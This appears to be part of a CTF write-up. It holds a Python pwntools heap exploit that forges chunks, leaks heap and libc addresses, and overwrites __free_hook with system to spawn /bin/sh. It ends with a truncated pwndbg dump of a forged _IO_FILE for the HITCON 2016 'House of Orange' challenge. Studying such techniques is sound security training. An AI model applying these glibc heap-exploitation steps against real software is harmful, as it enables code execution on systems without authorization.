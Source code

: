 ```python
add(0x4e8) # 2
free(2)

storage = 0x13370800
fake = storage-0x20

payload = flat(0,0,0,0x4f1,0,fake)
edit(7,payload)
payload = flat(0,0,0,0,0,0x4e1,0,fake+8,0,fake-0x18-5)
edit(8,payload)

try:
	add(0x48)
except:
	print('Try again?')

payload = flat(0,0,0,0,0,0x13377331,storage)
edit(2,payload)

payload = flat(0,0,0,0x13377331,storage,0x1000)
p1 = payload + flat(storage-0x20+3,8)
edit(0,p1)

heap = uu64(show(1))
p2 = payload + flat(heap+0x10,8)
edit(0,p2)

base = uu64(show(1))-88-libc.sym['__malloc_hook']-0x10
system = base + libc.sym['system']
free_hook = base + libc.sym['__free_hook']

p3 = payload + flat(free_hook,0x100,storage+0x50,0x100,'/bin/sh\x00')
edit(0,p3)
edit(1,p64(system))

sl('3')
sla('Index:','2')
```


### houseoforange_hitcon_2016

```
pwndbg> p *(struct _IO_FILE*)0x555b7d04b4f0
$2 = {
  _flags = 1852400175,
  _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>,
  _IO_read_end = 0x0,
  _IO_read_base = 0x7f29a0f30510 "",
  _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>,
  _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0,
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x0,
  _fileno = 0,
  _flags2 = 0,
  _old_offset = 0,
  _cur_column = 0,
  _vtable_offset = 0 '\000',
```